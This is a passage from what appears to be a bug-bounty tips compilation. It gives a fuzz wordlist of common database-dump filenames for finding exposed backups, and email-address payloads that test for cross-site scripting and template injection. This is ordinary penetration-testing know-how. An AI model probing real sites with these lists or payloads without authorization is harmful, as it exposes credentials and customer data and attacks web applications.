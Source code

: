 ## 7\. Forgotten database dumps

By [@TobiunddasMoe](https://twitter.com/TobiunddasMoe)  
Source: [link](https://twitter.com/TobiunddasMoe/status/1276217343073370113)

Here’s a quick tip to find forgotten database dumps using this small but quick fuzz list:

```bash
/back.sql
/backup.sql
/accounts.sql
/backups.sql
/clients.sql
/customers.sql
/data.sql
/database.sql
/database.sqlite
/users.sql
/db.sql
/db.sqlite
/db_backup.sql
/dbase.sql
/dbdump.sql
setup.sql
sqldump.sql
/dump.sql
/mysql.sql
/sql.sql
/temp.sql
```

Old database dumps may contain all kinds of interesting information – user credentials, configuration settings, secrets and api keys, customer data and more.

## 8\. E-mail address payloads

By [@securinti](https://twitter.com/securinti) (compiled by [@intigriti](https://twitter.com/intigriti))  
Source: [link](https://twitter.com/intigriti/status/1272860780694843392)

The following payloads are all valid e-mail addresses that we can use for pentesting of not only web based e-mail systems.

XSS (Cross-Site Scripting):

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

Template injection:

```bash
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```
